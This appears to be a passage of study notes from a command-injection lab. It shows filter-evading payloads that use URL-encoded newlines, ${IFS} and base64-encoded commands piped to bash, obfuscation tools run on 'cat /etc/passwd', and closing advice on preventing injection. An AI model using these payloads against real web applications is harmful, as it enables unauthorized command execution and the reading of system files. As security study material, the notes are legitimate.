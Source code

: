 ``` 
```
ip=127.0.0.1%0abash<<<$(base64${IFS}-d<<<d2hvYW1p)
```

We used `bash<<<$(base64 -d<<<d2hvYW1p)`
Now, we encode the desired command from the challenge.
```
ip=127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEg)
``` 
Our final payload works.

# Evasion Tools

To obfuscate bash commands

https://github.com/Bashfuscator/Bashfuscator 

Use like so
```
./bashfuscator -c 'cat /etc/passwd'
```
Can produce a long payload, so we use some flags to produce a simpler command.
```
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

We can execute the encoded command via ```bash -c``` 

https://github.com/danielbohannon/Invoke-DOSfuscation

Lets us do the same thing with Windows.

# Command Injection Prevention

Input validation (both on front-end and back-end), input sanitisization (removing non-nessesary characters)

We should also configure our server properly 
```

    Use the web server's built-in Web Application Firewall (e.g., in Apache mod_security), in addition to an external WAF (e.g. Cloudflare, Fortinet, Imperva..)

    Abide by the Principle of Least Privilege (PoLP) by running the web server as a low privileged user (e.g. www-data)

    Prevent certain functions from being executed by the web server (e.g., in PHP disable_functions=system,...)

    Limit the scope accessible by the web application to its folder (e.g. in PHP open_basedir = '/var/www/html')

    Reject double-encoded requests and non-ASCII characters in URLs

